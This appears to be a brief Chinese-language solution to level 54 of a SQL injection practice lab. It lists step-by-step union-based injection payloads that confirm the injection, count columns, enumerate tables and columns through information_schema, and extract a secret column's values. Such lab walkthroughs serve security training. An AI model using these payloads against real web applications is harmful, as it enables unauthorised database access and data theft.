

# 第五十四关
判断是否存在注入以及闭合：'and 1=2 -- qwe

判断字段数：'order by  1-- qwe

判断显错位：'union select 1,2,3 -- qwe

判断表：'union select 1,table_name,3 from information_schema.tables where table_schema=database() -- qwe

判断列名：'union select 1,group_concat(column_name),3 from information_schema. columns where table_schema=database() and table_name='jg9njybt72' -- qwe

判断具体数据：'union select 1, group_concat(secret_EK84),3 from jg9njybt72 -- qwe